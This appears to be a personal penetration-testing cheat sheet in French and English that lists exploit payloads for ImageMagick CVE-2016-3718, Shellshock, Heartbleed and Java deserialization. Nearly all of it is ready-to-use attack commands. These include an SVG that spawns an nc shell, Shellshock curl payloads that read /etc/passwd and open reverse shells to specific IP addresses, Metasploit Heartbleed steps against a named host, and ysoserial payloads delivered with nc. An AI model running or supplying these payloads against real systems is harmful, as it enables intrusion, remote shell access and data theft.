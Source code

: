 CVE & Vulns exploits
====================

### Imagick - CVE-2016-3718 - SSRF


Dans un .svg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|nc -l -p 7777 -e"/bin/sh)'
pop graphic-context

### Shellshock - CVE-2014-6271


Apache mod_cgi or any CGI information ? Could be vulnerable to shellshock
# Shellshock == CVE-2014-6271

# Classic PoC
curl -H "User-Agent: () { :; }; /bin/command" http://example.com/
() {:;}; /bin/cat /etc/passwd

# Reverse shell
() { :; }; /bin/sh -c /bin/sh -i  >& /dev/tcp/139.99.169.198/51337 0>&1 &

# Reverse Shell
curl -H "User-Agent: () { :;};echo content-type:text/plain;echo;/bin/nc 51.75.29.235 2222 -e /bin/bash;echo;exit" http://vuln.com/script.cgi

# Automatic tool : shellshocker.py
https://github.com/liamim/shellshocker

### Heartbleed - CVE-2014-0160


# Some github repository provides functionnal PoC
https://github.com/mpgn/heartbleed-PoC

# Exploit using MetaSploit
> use auxiliary/scanner/ssl/openssl_heartbleed
> set RHOSTS 51.75.202.113:1073
> set RPORT 1073
> set TLS_VERSION 1.2

# Note - Ne pas oublier de modifier la verbosité afin de récupérer les données
> set verbose true

> exploit

### Java Deserialization


https://artsploit.blogspot.com/2016/01/paypal-rce.html
/PayloadsAllTheThings/tree/master/Insecure%20Deserialization
https://github.com/frohoff/ysoserial

# You can generate payloads to exploit unsafe Java deserialization
java -jar ysoserial.jar CommonsCollections1
'your command' | base64

java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
nc 10.10.10.10 1099 < groovypayload.bin
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
